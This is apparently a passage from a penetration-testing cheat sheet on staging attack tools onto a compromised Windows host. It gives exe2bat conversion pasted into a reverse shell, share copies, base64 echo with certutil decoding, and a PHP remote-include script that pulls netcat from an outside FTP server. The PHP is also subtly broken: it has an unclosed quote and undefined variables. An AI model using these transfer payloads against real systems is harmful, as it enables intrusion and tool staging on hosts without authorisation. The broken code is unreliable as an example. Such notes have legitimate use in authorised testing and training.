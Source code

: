 <span id="anchor-59"></span>Debug (from reverse Windows shell)

This method has size limitations. It will only work with 64k or smaller
files.

<table>
<tbody>
<tr class="odd">
<td><p># First use upx to pack the file to make it smaller</p>
<p>upx -9 &lt;originalPE&gt;</p>
<p># Use exe2bat.exe to convert the file to a BAT file format</p>
<p>wine exe2bat.exe <strong>&lt;originalPE&gt;</strong> <strong>&lt;destination&gt;</strong></p>
<p># Copy and paste the contents of the destination file to your reverse shell</p></td>
</tr>
</tbody>
</table>

<span id="anchor-60"></span>Copy Command (Share Access)

|                                             |
| ------------------------------------------- |
| copy \\\\**\<source\>** **\<destination\>** |

<span id="anchor-61"></span>Echo Command (Share Access)

|                                                             |
| ----------------------------------------------------------- |
| echo “**\<base64 encoded data\>**” \>\> **\<destination\>** |

**Note**: By base64 encoding the file you will turn it into plain text
that can be echoed to the remote system. It can then be decoded using
the **certutil.exe** command.

<span id="anchor-62"></span>PHP Remote Include FTP Download Script

<table>
<tbody>
<tr class="odd">
<td><p>&lt;?php</p>
<p>     // set up basic connection<br />
   $conn_id = ftp_connect("<strong>&lt;ftp_server_address&gt;</strong>");<br />
   // login with username and password<br />
   $login_result = ftp_login($conn_id, "anonymous", "foo@bar.com");<br />
   // check connection</p>
<p>     if ((!$conn_id) || (!$login_result)) {<br />
        echo "Ftp connection has failed!";<br />
        echo "Attempted to connect to $ftp_server for user $user";<br />
        die;<br />
   } else { </p>
<p>          echo "Connected";<br />
   }<br />
   // upload the file<br />
   $upload = ftp_get($conn_id, "<strong>&lt;writable_path&gt;</strong>, "nc", FTP_BINARY);<br />
  echo $upload;<br />
  // close the FTP stream<br />
  ftp_quit($conn_id);</p>
<p>?&gt;</p></td>
</tr>
</tbody>
</table>

